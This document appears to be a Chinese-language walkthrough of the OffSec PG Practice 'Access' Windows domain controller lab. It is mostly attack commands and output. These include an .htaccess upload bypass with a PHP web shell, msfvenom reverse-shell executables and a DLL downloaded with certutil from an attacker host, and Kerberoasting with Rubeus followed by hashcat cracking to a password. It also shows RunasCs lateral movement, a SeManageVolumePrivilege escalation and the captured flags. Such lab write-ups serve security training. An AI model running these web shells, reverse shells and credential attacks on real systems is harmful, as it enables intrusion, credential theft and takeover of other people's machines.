


###### tags: `Offsec` `PG Practice` `Intermediate` `Windows`

# Access
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.160.187 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.160.187:53
Open 192.168.160.187:80
Open 192.168.160.187:88
Open 192.168.160.187:135
Open 192.168.160.187:139
Open 192.168.160.187:389
Open 192.168.160.187:445
Open 192.168.160.187:464
Open 192.168.160.187:593
Open 192.168.160.187:636
Open 192.168.160.187:3268
Open 192.168.160.187:3269
Open 192.168.160.187:5985
Open 192.168.160.187:9389
Open 192.168.160.187:49666
Open 192.168.160.187:49668
Open 192.168.160.187:49673
Open 192.168.160.187:49674
Open 192.168.160.187:49677
Open 192.168.160.187:49704
Open 192.168.160.187:49790

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-05-02 02:18:21Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49704/tcp open  msrpc         syn-ack Microsoft Windows RPC
49790/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

buster有一個`uploads`資料夾
```
┌──(kali㉿kali)-[~/pgplay]
└─$ dirsearch -u http://192.168.160.187 

[22:13:01] 301 -  343B  - /assets  ->  http://192.168.160.187/assets/       
[22:13:01] 200 -    2KB - /assets/
[22:13:09] 301 -  342B  - /forms  ->  http://192.168.160.187/forms/
[22:13:27] 301 -  344B  - /uploads  ->  http://192.168.160.187/uploads/     
[22:13:27] 200 -  777B  - /uploads/
```

點`buy ticket`可以上傳圖檔，不能上傳php檔，參考[File Upload bypass (.htaccess)](http://michalszalkowski.com/security/pentesting-web/file-upload-bypass-htaccess/#exploiting-htaccess-to-add-new-php-extension)先製作兩個檔案
```
┌──(kali㉿kali)-[~/pgplay]
└─$ cat .htaccess   
AddType application/x-httpd-php .evil

┌──(kali㉿kali)-[~/pgplay]
└─$ cat shell.php.evil 
<pre><?php echo shell_exec($_REQUEST["cmd"]) ?></pre>
```

分別先上傳`.htaccess`，可以上傳，再上傳`shell.php.evil` 






成功可以使用whoami`http://192.168.160.187/uploads/shell.php.evil?cmd=whoami`
```
access\svc_apache
```

下載reverse，執行
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.215 lport=445 -f exe > met_445.exe

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp445 

http://192.168.160.187/uploads/shell.php.evil?cmd=certutil.exe -f -urlcache -split http://192.168.45.215/met_445.exe c:/windows/temp/met_445.exe

http://192.168.160.187/uploads/shell.php.evil?cmd=c:/windows/temp/met_445.exe
```

AD可以嘗試`kerberoasting`
```
PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.215/Rubeus.exe Rubeus.exe

PS C:\Users\Public\Documents> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

PS C:\Users\Public\Documents> type hashes.kerberoast
$krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec@access.offsec*$8E5713207FAF1ECE59DABC3809C83A6A$5CB682C9E4656F2EB4B614E9998FA6898826358A1E366E95316D561A1C63708A7F2ED62FC8F417600DAD8EE3A470EAFD985CFF3FE0464D3DFCA6350ABC24B8D7D2641D5F915B5C1143B6B4764535F6A773D0155703B5053CA97C44E37BF394465EC38214C301BA0DF3AA87DD1B1D5DA27B0DE9A821B2FB24A9613A410B39E384A01BEC62893F60F24ADAC63227DDA02A41BF521080C2CC71D47BCA977BE161CDAD68CA2D2D7FFFE62AF7A87A2D4D974A50B79821A001849FF2B8AE907025780EC310850638DB123D9CA49CC2AD9EC4BE7752AAA3BB291E39EC8F3D762ECBB0119094398104EF51FAA913C4A242076E5C3167781A3D3ECC86F4FB0C7B623707154816077F2CBB93E3BF2A62FE6C84AF724A478EC37861D84F01686B0C87C96AA783B7460468F43844C20DC43762F0E42417D3590B6C645B5C86AB810599C824587F1534590CCB649B3D5E2CFEB3D05AF1B51C8E747F4F33DF902F59638B0BC0BC0549CC876F0CE53E9E0A890CDA987EE4291728EA14461686CC2BB56949546F77F93C192C082D6932B1DE21CF49F7D9826883BE3B88FB182D91FBFBD7C02380EDB6E16DECA1588E1835C56D6B9FD2583D872A8A85C45B252F56365662F1E515FF3665C67267C36ACFDBFFF26F16204F6425C99878B5F96D771787D4D6306110B50679C4BE88AFA285C71DF4B3EDB9A03FDE500CA705AA7E75F8EDB86A860CACD0A6400DF44C21C2DF7607881FCCF9F6309C3E87E86C59C11D9EB436F85728488B848C8BAEEA7D1A479F69DB8645CCD4B13A7D4BCC378DF6DE1E5D98DA2636A69A5AAC8405A8BCE7481B18119C8C9D18415016B72CC473D6794E93AA7D1EBD17A3D0D445F00142948ABAED771F7DF5014945C12341D2852F414324B1CA323EC411CC6219A45F39D8F5C46CC3766DAFC7E97BC3BC02E4DCBFEC14CD2A56686BFBEF04C7F3001D3B4414CD373865C8D11686ADA672A4196731F0F284C4857ADA2F03891C0699E262D1F87913752005C531CCF7926FEDB764FDFD94CA12811F70D967F066E2DB9E0E904EC8819FF175148BDE09F1168D7D1777B8A2ACD6599C9D371FBC4E79F430FED610492B612EEA44C9DD00503575BB34EE0F8EFF3A408B9EFE1AABFCFA5BD11F8857AC38C5DF1748121946E31A91B457EDB1987095D65DB03578EA9F2B3EAD81C9B6D1BB79CF34A29CB3CA3EBF32516D32A0F28ABF127B2AC3DC6A6CD45E4F76E69087D3E19B2DEB977B46E88F6F616DAD65202A5ACEE1493126408167A6AD1216DB14466A75BA56EC9B6250F6AACEC0952C47ED817CD64E82D0AED9F60EDD1C5745269B3CA290425C4AFA64EE3FBD87CF04B7293BF7B156C5115AFF037CC78EC4D42B71445607997355B266A0CCE436188AC84CF89F9C4A3D1DB18FB1BC10F5D005F496F9FFD3CDF0EF5329C53EC06281B6384717369AF1DEF08FBC71C96A194ABEE1726130CC8CC273FD9F2C37211A04E99E609CC43B073CE88B60DD24017B4CB555DEBDB01C3AC28D34B8E51F65B6EB0781C0BBAE6DDECD3D78C4E2BF517469067956BE968247A66413E17426FE362B39CC028BB3369D240A3B090E3934A6686DBD3CB6600DBCF90843F0
```

hashcat破
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo hashcat -m 13100 hashes.kerberoast /home/kali/rockyou.txt

$krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec@access.offsec*$8e5713207faf1ece59dabc3809c83a6a$5cb682c9e4656f2eb4b614e9998fa6898826358a1e366e95316d561a1c63708a7f2ed62fc8f417600dad8ee3a470eafd985cff3fe0464d3dfca6350abc24b8d7d2641d5f915b5c1143b6b4764535f6a773d0155703b5053ca97c44e37bf394465ec38214c301ba0df3aa87dd1b1d5da27b0de9a821b2fb24a9613a410b39e384a01bec62893f60f24adac63227dda02a41bf521080c2cc71d47bca977be161cdad68ca2d2d7fffe62af7a87a2d4d974a50b79821a001849ff2b8ae907025780ec310850638db123d9ca49cc2ad9ec4be7752aaa3bb291e39ec8f3d762ecbb0119094398104ef51faa913c4a242076e5c3167781a3d3ecc86f4fb0c7b623707154816077f2cbb93e3bf2a62fe6c84af724a478ec37861d84f01686b0c87c96aa783b7460468f43844c20dc43762f0e42417d3590b6c645b5c86ab810599c824587f1534590ccb649b3d5e2cfeb3d05af1b51c8e747f4f33df902f59638b0bc0bc0549cc876f0ce53e9e0a890cda987ee4291728ea14461686cc2bb56949546f77f93c192c082d6932b1de21cf49f7d9826883be3b88fb182d91fbfbd7c02380edb6e16deca1588e1835c56d6b9fd2583d872a8a85c45b252f56365662f1e515ff3665c67267c36acfdbfff26f16204f6425c99878b5f96d771787d4d6306110b50679c4be88afa285c71df4b3edb9a03fde500ca705aa7e75f8edb86a860cacd0a6400df44c21c2df7607881fccf9f6309c3e87e86c59c11d9eb436f85728488b848c8baeea7d1a479f69db8645ccd4b13a7d4bcc378df6de1e5d98da2636a69a5aac8405a8bce7481b18119c8c9d18415016b72cc473d6794e93aa7d1ebd17a3d0d445f00142948abaed771f7df5014945c12341d2852f414324b1ca323ec411cc6219a45f39d8f5c46cc3766dafc7e97bc3bc02e4dcbfec14cd2a56686bfbef04c7f3001d3b4414cd373865c8d11686ada672a4196731f0f284c4857ada2f03891c0699e262d1f87913752005c531ccf7926fedb764fdfd94ca12811f70d967f066e2db9e0e904ec8819ff175148bde09f1168d7d1777b8a2acd6599c9d371fbc4e79f430fed610492b612eea44c9dd00503575bb34ee0f8eff3a408b9efe1aabfcfa5bd11f8857ac38c5df1748121946e31a91b457edb1987095d65db03578ea9f2b3ead81c9b6d1bb79cf34a29cb3ca3ebf32516d32a0f28abf127b2ac3dc6a6cd45e4f76e69087d3e19b2deb977b46e88f6f616dad65202a5acee1493126408167a6ad1216db14466a75ba56ec9b6250f6aacec0952c47ed817cd64e82d0aed9f60edd1c5745269b3ca290425c4afa64ee3fbd87cf04b7293bf7b156c5115aff037cc78ec4d42b71445607997355b266a0cce436188ac84cf89f9c4a3d1db18fb1bc10f5d005f496f9ffd3cdf0ef5329c53ec06281b6384717369af1def08fbc71c96a194abee1726130cc8cc273fd9f2c37211a04e99e609cc43b073ce88b60dd24017b4cb555debdb01c3ac28d34b8e51f65b6eb0781c0bbae6ddecd3d78c4e2bf517469067956be968247a66413e17426fe362b39cc028bb3369d240a3b090e3934a6686dbd3cb6600dbcf90843f0:trustno1
```

破完可得帳號`svc_mssql`密碼`trustno1`，試過`evil-winrm`, `impacket-psexec`跟`xfreerdp`都登不了，用[runas](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1?source=post_page-----b95d3146cfe9--------------------------------)
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.215 lport=139 -f exe > met_139.exe

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp139

C:\Users\Public\Documents>powershell -ep bypass

PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.215/Invoke-RunasCs.ps1 Invoke-RunasCs.ps1

PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.215/met_139.exe met_139.exe

PS C:\Users\Public\Documents> . .\Invoke-RunasCs.ps1
PS C:\Users\Public\Documents> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "C:\Users\Public\Documents\met_139.exe"
```

成功可得`svc_mssql`帳號shell，在`C:\USers\svc_mssql\Desktop`可得local.txt
```
C:\Windows\system32>whoami
whoami
access\svc_mssql

PS C:\USers\svc_mssql\Desktop> type local.txt
4c85057b55bdbf8ee36d19dd734b3b9d
```

查看`whoami /priv`，可以使用[SeManageVolumePrivilege](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)提權，參考[說明](https://github.com/xct/SeManageVolumeAbuse)
```
C:\Windows\System32\wbem>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled

c:\Users\Public\Documents>certutil.exe -urlcache -f http://192.168.45.215/SeManageVolumeExploit.exe SeManageVolumeExploit.exe

c:\Users\Public\Documents>SeManageVolumeExploit.exe
SeManageVolumeExploit.exe
Entries changed: 925
DONE
```

其實到這邊就可以直接去取proof.txt了，下面的步驟還是留著QQ 雖然一直不成功
```
c:\Users\Administrator\Desktop>type proof.txt
1cf87366eccd434bc080c617a3ae7435
```

//製作reverse
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.215 LPORT=135 -f dll -o tzres.dll

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp135

C:\Windows\System32\wbem>certutil.exe -urlcache -f http://192.168.45.215/tzres.dll tzres.dll

C:\Windows\System32\wbem> systeminfo
```